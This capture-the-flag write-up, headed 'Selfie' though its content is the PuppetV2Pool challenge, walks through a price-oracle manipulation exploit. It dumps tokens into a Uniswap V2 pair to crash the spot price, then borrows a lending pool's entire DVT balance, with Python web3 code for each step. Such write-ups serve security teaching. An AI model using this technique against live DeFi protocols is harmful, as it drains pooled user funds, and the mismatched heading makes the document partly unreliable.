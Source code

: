 ## Selfie

### Challenge description

> The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!
>
> Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
>
> You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

### Solution

This challenge is *identical* to the puppet challenge, except it uses Uniswap V2. Once again, we can manipulate the price of the token by selling a bunch of DVT tokens for ETH, which reduces the price of DVT tokens relative to ETH so much that it's possible to borrow the entire token balance of the PuppetV2Pool pool.

The only added change here is that Uniswap V2 only performs token to token swaps, where ETH must be wrapped as WETH (an ERC20 token 1:1 with ETH).

The steps to perform the attack are really similar to those of the Puppet challenge:

First we must approve the token spending limit for the Uniswap V2 router:

```py
token.approve(uniswap_router.address, 2**256 - 1, _fromAttacker)
```

Then exchange all the tokens in our wallet for ETH:

```py
uniswap_router.swapExactTokensForETH(
    ether_to_wei(10000), 
    9.92, 
    [token.address, weth.address],
    attacker.address,
    web3.eth.get_block('latest').timestamp * 2,
    _fromAttacker
)
```

`swapTokensForExactTokens()` can also be used, as we're going to use WETH anyway, but we would have to wrap some extra ETH to reach the right amount to drain the pool anyway, so I decided to just use `swapExactTokensForETH()`.

Then obtain what amount of WETH we must deposit to drain the pool:

```py
amount = lending_pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
```

Deposit this same amount into the WETH contract:

```py
weth.deposit(_fromAttacker | value_dict(amount))
```

Now with the WETH in hand we must approve the spending limit of WETH for the PuppetV2Pool contract to the `amount` obtained before (or more):

```py
weth.approve(lending_pool.address, amount, _fromAttacker)
```

Given that the PuppetV2Pool calls `transferFrom()` in `borrow()`:

```solidity
_weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);
```

Then just call borrow to drain the pool:

```py
lending_pool.borrow(POOL_INITIAL_TOKEN_BALANCE, _fromAttacker)
```

And we should receive all the DVT tokens from the pool.
